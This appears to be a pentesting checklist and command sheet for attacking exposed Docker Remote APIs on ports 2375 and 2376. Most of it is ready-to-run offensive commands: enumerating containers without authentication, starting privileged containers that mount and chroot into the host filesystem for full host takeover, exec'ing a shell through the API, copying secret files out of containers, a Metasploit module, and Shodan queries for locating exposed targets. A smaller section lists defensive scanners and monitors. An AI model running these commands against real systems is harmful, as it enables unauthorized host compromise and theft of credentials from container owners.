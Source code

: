 # Docker Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating Docker Remote API (ports 2375, 2376), I realistically expect to find:

- [ ] Exposed remote Docker APIs without authentication
- [ ] Ability to list images and running containers
- [ ] Ability to start privileged containers with host mounts
- [ ] Potential for direct host compromise via container breakout
- [ ] Secrets or credentials in environment variables or mounted volumes

---

## ✅ Docker Pentest Checklist

- [ ] **Service Detection & Banner Grabbing**
  - Identify exposed Docker API endpoints.
    ```
    nmap -sV -Pn -p2375,2376 <IP>
    ```

- [ ] **Manual Enumeration with curl**
  - Check version and basic info.
    ```
    curl http://<IP>:2375/version | jq
    curl --insecure https://<IP>:2376/version | jq
    ```
  - List containers and images.
    ```
    curl http://<IP>:2375/containers/json | jq
    curl http://<IP>:2375/images/json | jq
    ```

- [ ] **Using Docker CLI Remotely**
  - Connect to remote API.
    ```
    docker -H tcp://<IP>:2375 version
    docker -H tcp://<IP>:2375 ps -a
    docker -H tcp://<IP>:2375 images
    ```
  - Set environment variable to avoid using `-H`.
    ```
    export DOCKER_HOST="tcp://<IP>:2375"
    ```

- [ ] **Privilege Escalation via Host Mount**
  - Start a container with host root filesystem mounted.
    ```
    docker -H <IP>:2375 run -it --privileged -v /:/host/ ubuntu chroot /host bash
    ```

- [ ] **Enumerate Secrets from Running Containers**
  - Inspect for environment variables.
    ```
    docker inspect <containerID>
    ```
  - Copy potential secret files.
    ```
    docker cp <containerID>:/etc/<secret_file> .
    ```

---

## ✅ Curl API Examples for 2376/TLS

- **List containers**
    ```
    curl --insecure https://<IP>:2376/containers/json | jq
    ```
- **Exec into container**
    ```
    curl --insecure -X POST -H "Content-Type: application/json" \
    https://<IP>:2376/containers/<ID>/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh"] }'
    ```

---

## ✅ Fast Host Takeover

- **Run shell with full host access**
    ```
    docker -H <IP>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
    chroot /mnt
    ```

---

## ✅ Automated Enumeration & Exploitation

- **Metasploit**
    ```
    msf> use exploit/linux/http/docker_daemon_tcp
    ```
- **Nmap Scripts**
    ```
    nmap -sV --script "docker-*" -p <PORT> <IP>
    ```

---

## ✅ Securing Your Docker Environment

- [ ] **Security Benchmarking**
    - Use Docker Bench for Security.
      ```
      ./docker-bench-security.sh
      ```
- [ ] **Inspect for Exposed Sockets**
    - Use Dockscan.
      ```
      dockscan -v unix:///var/run/docker.sock
      ```
- [ ] **Analyze Container Privileges**
    - Use Amicontained.
      ```
      docker run --rm -it r.j3ss.co/amicontained
      ```
- [ ] **Scan Images for Vulnerabilities**
    - Use Clair.
      ```
      clair-scanner -c http://<clairIP>:6060 --ip <hostIP> <image>
      ```
- [ ] **Lint Dockerfiles**
    - Hadolint example.
      ```
      hadolint Dockerfile
      ```
- [ ] **Monitor Runtime Activity**
    - Use Falco for intrusion detection.
      ```
      docker run -it --privileged -v /var/run/docker.sock:/host/var/run/docker.sock falco
      ```

---

## ✅ Container Breakout & Privilege Escalation

- [ ] **Writable Docker Socket on Host**
  - Abuse to gain root.
    ```
    docker run -v /:/host --rm -it alpine chroot /host bash
    ```
  - More info:
    ```
    https://payloadsallthethings.github.io/privilege-escalation/Docker%20Breakout/
    ```

---

## ✅ Discovering Secrets in Containers

- [ ] **List and Inspect**
    ```
    docker ps
    docker inspect <containerID>
    ```
- [ ] **Check Environment Variables**
    - Look for:
      - Passwords
      - API keys
      - Config paths

- [ ] **Copy Files**
    ```
    docker cp <containerID>:/etc/<secret_file> .
    ```

---

## ✅ Shodan Search

- Exposed Docker APIs
    ```
    port:2375
    port:2376
    ```
